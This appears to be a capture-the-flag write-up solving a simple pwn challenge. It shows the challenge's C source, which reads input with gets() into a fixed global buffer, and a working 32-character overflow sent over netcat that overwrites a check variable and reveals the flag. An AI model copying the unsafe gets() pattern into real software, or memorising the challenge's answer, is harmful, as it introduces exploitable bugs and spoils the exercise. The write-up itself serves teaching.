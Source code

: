 # Go With the Overflow

## Pwn

### Pwn is easy if you go with the (over) flow.

This challenge came with a binary and the source code.

**Source**
```C
#include <stdio.h>
#include <stdlib.h>

#pragma GCC diagnostic ignored "-Wimplicit-function-declaration"

char buffer[30];
int blah;
FILE *fptr;
char daflag[50];

int main() {
	blah = 1337;
	printf("\n\nAre you able to go with the (over) flow?\n");
	printf("What's your favorite word? ");
	fflush(stdout);
	gets(buffer);
	if (blah == 1337){
		printf("\nYou didn't get into the flow\n");
		fflush(stdout);
	}else{
		printf("\nNice job, going with the flow\n");
		fptr = fopen("./flag.txt", "r");
		fgets(daflag, 46, fptr);
		fclose(fptr);
		printf("Let your flag flow: %s\n\n", daflag);
		fflush(stdout);
	}
	return 0;
}
```

Reviewing the source code, the first thing that pops out is that it uses `gets` to collect user input.  This is extremely dangerous, if you don't believe me read the `gets` man page.  The buffer has space allocated for 30 characters.  If the user adds more than that, it will start overwriting the stack.  
The next thing that catches my attention is that it sets a variable to 1337 and after the user input it checks if that is still the case.  If it is, no flag.  If it's not you get the flag.  This is a relatively easy buffer overflow.  We need to add enough characters (32) in the input to overflow the buffer and overwrite the `blah` variable.


```sh
% nc 98.88.89.199 2228

Are you able to go with the (over) flow?
What's your favorite word? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Nice job, going with the flow
Let your flag flow: teractf{th3_fl0w_15_0v3r_turn_0ut_th3_l1ght5}
```

**teractf{th3_fl0w_15_0v3r_turn_0ut_th3_l1ght5}**
